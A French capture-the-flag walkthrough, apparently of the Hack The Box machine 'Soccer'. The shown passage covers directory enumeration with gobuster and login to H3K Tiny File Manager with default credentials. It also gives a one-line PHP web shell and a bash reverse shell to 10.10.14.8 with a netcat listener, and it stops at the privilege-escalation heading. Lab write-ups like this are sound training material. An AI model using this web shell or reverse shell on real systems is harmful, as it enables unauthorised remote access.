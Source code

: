 On a un site web sur le port 80 qui redirige vers `soccer.htb` (qu'on ajoute dans le fichier `/etc/hosts`).

![](../../AUTRES/Attachments/img_0204_0617_wkfei.png)

On a aussi un site web sur le port 9091 qui ressemble à une application Node.js, reconnaissable grâce à l'erreur typique : `Cannot GET /`, mais il ne semble rien contenir.

### Gobuster
* Identifier des pages et répertoires cachés sur le site

```
gobuster dir -u "http://soccer.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php

.html                (Status: 403) [Size: 162]
/index.html           (Status: 200) [Size: 6917]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
* **=> Répertoire caché `/tiny`** 

![](../../AUTRES/Attachments/img_0204_0618_plbnv.png)

En recherchant sur Google, on trouve des identifiants par défaut pour **H3K Tiny File Manager**, permettant de se connecter en administrateur :
```
"Default username/password: admin/admin@123 and user/12345."
```

![](../../AUTRES/Attachments/img_0204_0619_fcxxl.png)
## Phase 2 : Exploitation 🤯

Sur l'interface, il est possible d'uploader des fichiers. Testons l'upload d'un web shell :
```php
<?php echo shell_exec($_GET["cmd"]) ?>
```

![](../../AUTRES/Attachments/img_0204_0620_xjmby.png)

On peut ensuite établir un reverse shell :

```sh
nc -nlvp 1234

bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"
```

On obtient un reverse shell ! ✅

## Phase 3 : Priv Esc 🔺

### Enumeration 
